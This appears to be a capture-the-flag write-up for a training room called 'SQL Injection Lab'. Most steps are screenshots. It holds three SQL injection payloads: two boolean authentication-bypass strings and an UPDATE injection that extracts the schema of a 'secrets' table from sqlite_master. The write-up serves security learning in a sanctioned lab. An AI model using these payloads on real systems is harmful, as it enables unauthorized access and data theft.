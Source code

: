 
![](sqlilab.png)

[https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)

This room, [SQL Injection Lab](https://tryhackme.com/r/room/sqlilab), is meant as an introduction to SQL injection and demonstrates various SQL injection attacks. It is not meant as a way to learn the SQL language itself. Some previous knowledge of the SQL language is highly recommended.

## Injection 1 : Input Box Non-String

![](Injection%201/1.png)

```sql
1 or 1=1-- -
``` 

![](Injection%201/2.png)

**FLAG :**

![](Injection%201/3.png)

## Injection 2 : Input Box String

![](Injection%202/1.png)

```sql
1' or '1'='1'-- -
```

![](Injection%202/2.png)

**FLAG :**

![](Injection%202/3.png)

## Injection 3 : URL Injection

![](Injection%203/1.png)

![](Injection%203/2.png)

![](Injection%203/3.png)

![](Injection%203/4.png)

**FLAG :**

![](Injection%203/5.png)

## Injection 4 : POST Injection

![](Injection%204/1.png)

![](Injection%204/2.png)

![](Injection%204/3.png)

![](Injection%204/4.png)

![](Injection%204/5.png)

![](Injection%204/6.png)

![](Injection%204/7.png)

![](Injection%204/8.png)

![](Injection%204/9.png)

**FLAG :**

![](Injection%204/10.png)

## Injection 5 : UPDATE Statement

- Préalable :

![](Injection%205/1.png)

![](Injection%205/2.png)

![](Injection%205/3.png)

---

![](Injection%205/0.1.png)

![](Injection%205/0.2.png)

![](Injection%205/0.3.png)

![](Injection%205/0.4.png)

![](Injection%205/0.5.png)

![](Injection%205/0.6.png)

![](Injection%205/0.7.png)

![](Injection%205/0.8.png)

![](Injection%205/0.9.png)

![](Injection%205/0.10.png)

![](Injection%205/0.11.png)

![](Injection%205/0.12.png)

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```

![](Injection%205/0.13.png)

**FLAG :**

![](Injection%205/0.14.png)